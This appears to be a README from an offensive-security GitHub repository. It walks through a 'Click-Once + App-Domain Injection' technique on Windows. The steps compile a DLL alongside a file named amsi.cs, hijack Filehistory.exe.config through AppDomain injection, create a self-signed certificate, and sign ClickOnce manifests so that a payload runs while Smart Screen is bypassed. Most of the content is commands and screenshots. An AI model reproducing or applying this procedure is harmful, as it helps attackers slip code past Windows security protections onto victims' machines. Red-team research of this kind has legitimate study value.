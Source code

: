 # Click-Once + App-Domain Injection 
Click Once + App Domain Injection

csc.exe /t:library /keyfile:key.snk /out:uevmonitor.dll uevmonitor.cs amsi.cs

[System.Reflection.AssemblyName]::GetAssemblyName("uevmonitor.dll").FullName            

uevmonitor, Version=0.0.0.0, Culture=neutral, PublicKeyToken=1bb626af4620f3e6

Add PublicKeyToken to Filehistory.exe.config

makecert -r -pe -n "CN=test" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv cert.pvk CA.cer

pvk2pfx -pvk cert.pvk -spc CA.cer -pfx CA.pfx -po "test"

MageUI.exe

Create application manifest:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/38a9d058-2d7e-4dca-a0cd-92979b5f346b)

Sign and save the application manifest:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/83b0ddac-ff62-496f-a9a8-6b71163636d7)

Create deployment manifest:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/9d76f5ca-4765-4e08-b9f3-2863b7b36035)

Add the application manifest:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/75430ed5-4618-43c9-98a2-a5dce1308d9f)

Sign and save the deployment manifest:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/faeaf363-9553-4104-ad9e-0378fb9bf9c7)

Launch and execute to bypass Smart Screen:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/3b903b58-2314-4e0f-9c3f-5a1a5d9aaee9)












